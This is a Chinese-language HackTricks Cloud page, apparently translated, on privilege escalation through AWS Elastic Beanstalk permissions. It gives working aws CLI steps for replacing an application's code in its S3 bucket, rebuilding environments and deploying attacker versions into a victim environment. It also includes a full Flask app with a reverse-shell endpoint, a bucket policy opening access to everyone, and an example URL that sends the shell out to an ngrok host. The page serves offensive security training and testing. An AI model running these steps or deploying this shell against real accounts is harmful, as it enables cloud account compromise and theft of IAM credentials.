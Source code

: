 # AWS - Elastic Beanstalk Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Elastic Beanstalk

更多关于 **Elastic Beanstalk** 的信息：

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
为了在 Beanstalk 中执行敏感操作，您需要在许多不同的服务中拥有 **大量敏感权限**。您可以检查例如授予 **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`** 的权限。
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`、S3 写权限及其他

拥有 **对包含环境代码的 S3 存储桶的写权限** 和 **重建** 应用程序的权限（需要 `elasticbeanstalk:RebuildEnvironment` 以及与 `S3`、`EC2` 和 `Cloudformation` 相关的其他权限），您可以 **修改** **代码**、**重建** 应用程序，下次访问应用程序时，它将 **执行您的新代码**，允许攻击者妥协应用程序及其 IAM 角色凭证。

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`，以及更多...

提到的权限加上几个 **`S3`**、**`EC2`**、**`cloudformation`**、**`autoscaling`** 和 **`elasticloadbalancing`** 权限是从头创建一个原始的 Elastic Beanstalk 场景所必需的。

* 创建一个 AWS Elastic Beanstalk 应用程序：
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* 创建一个 AWS Elastic Beanstalk 环境 ([**支持的平台**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python))：

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

如果环境已经创建，并且你**不想创建一个新的环境**，你可以**更新**现有的环境。

* 将你的应用程序代码和依赖项打包成一个ZIP文件：
```python
zip -r MyApp.zip .
```
* 将ZIP文件上传到S3存储桶：
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* 创建一个 AWS Elastic Beanstalk 应用程序版本：

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* 将应用程序版本部署到您的 AWS Elastic Beanstalk 环境：

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

首先，您需要创建一个**合法的 Beanstalk 环境**，其中包含您希望在**受害者**上运行的**代码**，按照**之前的步骤**进行操作。可能是一个简单的**zip**文件，包含这**2个文件**：

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

一旦你有了 **自己的 Beanstalk 环境运行** 你的 rev shell，就该 **迁移** 到 **受害者** 环境了。为此，你需要 **更新你的 Beanstalk S3 存储桶的策略**，以便 **受害者可以访问它**（请注意，这将 **开放** 存储桶给 **所有人**）：
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
